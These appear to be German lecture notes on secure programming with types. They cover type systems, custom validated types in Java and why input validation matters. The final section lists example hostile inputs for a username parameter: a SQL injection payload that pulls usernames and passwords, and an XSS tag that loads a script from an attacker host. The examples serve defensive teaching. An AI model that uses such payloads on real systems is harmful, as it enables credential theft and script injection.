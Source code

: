 # SPRG 8 - Security with Types

## Type, type system and type checking

- Ein Typ ist eine Klassifizierung von Daten. Er definiert
  - Die bedeutung der Daten (Semantik)
  - Mögliche Werte der Daten
  - Die Operationen der Daten
- Type system ist eine Menge an Regeln, welche Typen für die Elemente eines Systems erzwingen (Variablen, Konstanten, Parameter, return types)
- Type Checking stellt sicher, dass die Regeln des type systems im Programm eingehaltet werden. Dies geschieht durch den type checker beim compilieren

## Classifications of type systems

- Dynamisches oder statisches System beim type checking
  - **Dynamic Typing**

    - Führt keinen type check durch beim compilieren

    - Compiler wirft keinen Fehler wenn z.B. folgende Operation im Code auftaucht:

      `x = "hello" + 3`

  - **Static Typing**

    - Prüft beim compilieren mit einem type check ob die typen korrekt verwendet werden

    - Compiler wirft also einen Fehler wenn z.B. folgende Operation im Code auftaucht:

      `x = "hello" + 3`

- Schwache (weak) oder starke (strong) typisierung
  - **Weak Type System**
    - Ein schwach typisiertes System konvertiert typen implizit falls dies nötig sit
  - **Strong Type System**
    - Ein stark typisiertes System wirft einen Fehler wenn bei einer Operation die Typen nicht gleich sind



## Custom Types

- Integer, Double, BigDecimal, Char, String usw. werden auch als "primitive" Datentypen bezeichnet

- In einer gegebenen business domain arbeiten wir allerdings with strikteren Werten:

  - Username ist ein String, aber...

    - Er darf mindestens 3 und maximal 33 Zeichen lang sein
    - und er darf nur Zeichen aus dem Alphabet beeinhalten (also keine Satzzeichen, Schrägstriche usw.)

  - Menge an Übertragenem Geld ist ein BigDecimal, aber...

    - der Wert muss grösser als 0 sein
    - Je nach Währung darf der Betrag maximal 2 Zeichen nach dem Komma betragen

  - Ein Custom Type für den Benutzername könnte so aussehen:

    ```java
    public class Username
    {
        // Wert des Usernamens
        private final String value;
        
        // Konstruktur, welcher den String validiert
        public Username(String username)
        {
            // Prüfen, ob Username mitgegeben wurde
        	if(username == null || username.length == 0)
            {
                throw new ValidationException("Username is required")
            }
            
            /*
            * Weitere Prüfungen für den Usernamen
            */
            
            this.value = username;
        }
    }
    ```

## Wie können Typen die Sicherheit verbessern?

- Angenommen es gibt die Webseite
  - `internal.bankintra.com/showprofile?username={USERNAME}`
  - Wenn `{USERNAME}` ein Sring ist, so kann er unter anderem folgende arten von Werten annehmen:
    - Einen validen Usernamen
      - z.B.: `RaphiDerHeld69`
    - Schädlichen Code für SQL injection
      - z.B.: `' UNION SELECT username, password FROM users --`
    - Schädlichen Code für XSS um JavaScript in die Profileseite zu schmuggeln
      - z.B.: `<script src='http://attacker.com/malware.js />'`$
  - 

